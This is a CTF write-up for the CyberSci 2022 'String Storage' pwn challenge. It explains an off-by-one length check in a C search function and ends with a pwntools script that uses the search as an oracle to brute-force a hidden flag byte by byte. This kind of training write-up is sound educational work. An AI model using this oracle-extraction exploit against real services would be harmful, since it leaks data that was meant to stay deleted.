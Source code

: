 ```yaml
---
title: CyberSci 2022 - pwn - String Storage
slug: string-storage
date: 2022-11-12
author: Andre Cura
description: Abusing an off-by-one error in a search query to extract dereferenced data
---
```


## About the challenge

<!-- [Link to provided source code](/files/string-storage/main.c) -->

This challenge is the only pwn challenge in CyberSci 2022 and is worth 300 points.

For this challenge, we were only provided with the source code.
An instance of the program is spawned when we connect to the given port during the CTF.

---

## Initial Exploration

Since we were not given a binary for the challenge,
we can assume that the expected exploit should not require any
specific kind of memory corruption.

Looking at `main`, we see a global buffer being allocated, and some multiple calls to `add_entry`.
We also see a conditional addition and removal of `CTFKEY`.

```c
// main program body
int main() {
    stringArea = malloc(MAXENTRYSIZE * 16);

    add_entry("Test entry one\n");
    add_entry("Test entry two\n");
    add_entry("Test entry three\n");
    add_entry("Yet another test entry here!\n");

#ifdef PREPPUZZLE
    // add_entry("TEST\n");
    add_entry(CTFKEY);
    remove_entry(CTFKEY);

#endif
    
    while(1){
        process_user_input();
    }

    return 0;
}
```

`add_entry` will add the string in the next available and large enough area in `stringArea`

```c
//add a string entry, places it in the next large enough slot in our string buffer
int add_entry(char *entryString)
{
    debug_printf("adding %s \n", entryString);
    int string_space_needed = strlen(entryString) - 1;
    // if the list is empty, just make a new entry at the beginning
    if(entry_list_head == NULL){
        entry_list_head = create_entry(entryString, stringArea, string_space_needed);
    }
    //otherwise go through the items
    //if the item is the first, check if there is a gap big enough infront 
    //then check if there is a gap in between
    else{
        
        struct entry *current = entry_list_head;

        char *last_string_start = current->entry_string;
        char *last_string_end = last_string_start + current->entry_size;

        
        while(current->next !=NULL){
            debug_printf("element\n");
            current = current->next;
            last_string_start = current->entry_string;
            last_string_end = last_string_start + current->entry_size;
        }
        //if we are at end of list, just make a new entry at the end
        current->next = create_entry(entryString, last_string_end, string_space_needed);
    }
}
```

`create_entry` simply places the string in the indicated area in the buffer.

```c
//helper function to make a new entry
entry * create_entry(char * entry_string, char * string_location, int string_len){
    entry *new_entry = malloc(sizeof(entry));
    if(!new_entry){
        exit(-1);
    }
    new_entry->entry_string = string_location;
    new_entry->entry_size = string_len;
    strncpy(new_entry->entry_string, entry_string, string_len);
    new_entry->next = NULL;
    return new_entry;
}
```

The `remove_entry` function can be used to "delete" an entry.
What it actually does is it removes all references to the first entry
that matches with `string`, marking the area as free.

```c
//remove an entry that matches the string
int remove_entry(char *string){
    entry *current = entry_list_head;
    entry *previous = current;
    while(current != NULL){
        int string_len = strlen(string) - 1;
        //first check if strings are same length
        if(string_len == current->entry_size){
            //DEBUG
            debug_printf("same len \n");
            if (strncmp(string, current->entry_string, current->entry_size) ==0)
            {
                printf("found match\n");
                previous->next = current->next;
                if(current == entry_list_head){
                    entry_list_head = current->next;
                }
                free(current);
                return 1;
            }
        }
        //move along
        previous = current;
        current = current->next;
    }
    printf("no match found\n");
}
```

The critical part of the program is `search_entries`, as it was noted to be broken.
Notice that instead of looking for entries that match the string,
it doesn't work because `entry_len` is defined to be one more than the current entry size.
This results in the program checking one extra byte when searching for entries.
So, if we were to search for an entry that we know exists, `search_entry`
will not find a match.

```c
// loop through all the entries and print if there are any matches
//DEVELOLPER NOTE: this seems broken.....
int search_entries(char *string){
    entry *current = entry_list_head;
    int in_len = strlen(string) -1;
    while (current != NULL)
    {
        //check that the srtings are the same length
        int entry_len = current->entry_size + 1; 
        if(in_len == entry_len){
            debug_printf("matching len (%d,%d)   \n",in_len,entry_len);
            if (strncmp(string, current->entry_string, entry_len) == 0)
            {
                printf("found match\n");
                return 1;
            }
        }
        //move along
        current = current->next;
    }
    printf("no match found\n");
    return 0;
}
```
Because of the broken `search_entry` function, we would need to be able to know what the next character
is in `stringArea` after the entry we're searching.

## Strategy

In a way, `search_entry` is an oracle to determining the contents of `CTFKEY`.
Since we know the entry before `CTFKEY`,
we can use that entry as a search query string, guess the first character of `CTFKEY`,
add that to our search query, and see if we get a match or not.

Once we figured out the first character of `CTFKEY` we can extend our search query string
to guess for the second character. To do that, we will remove the entry before `CTFKEY`,
then add it again with the first character of `CTFKEY`.
That way, we can extend our search query string and `search_string` would peek for the second character.

We would repeat the process of brute-force searching, removal and addition until we reveal the whole flag.

## Exploit code

```py
from pwn import *
from string import printable

attack_remote = False

if attack_remote:
    p = remote('10.0.2.43', 10001)
else:
    elf = ELF('./main')
    p = elf.process()

search_payload = b'Yet another test entry here!'

while True:
    guess_bytes = [bytes(c, 'utf-8') for c in printable]
    found_valid_byte = False
    for guess in guess_bytes:
        p.sendline(b'search')
        p.recvuntil(b'search for?\n')
        print('payload: %s' % (search_payload + guess))
        p.sendline(search_payload + guess)
        result = p.recvuntil(b'or search :\n')
        if b"found match" in result:
            p.sendline(b'remove')
            p.sendline(search_payload)
            p.recvuntil(b'or search :\n')
            search_payload = search_payload + guess
            p.sendline(b'add')
            p.sendline(search_payload)
            p.recvuntil(b'or search :\n')
            found_valid_byte = True
            break
    # if we didn't find any more valid bytes, just quit
    if not found_valid_byte:
        break

print(search_payload[28:])
```
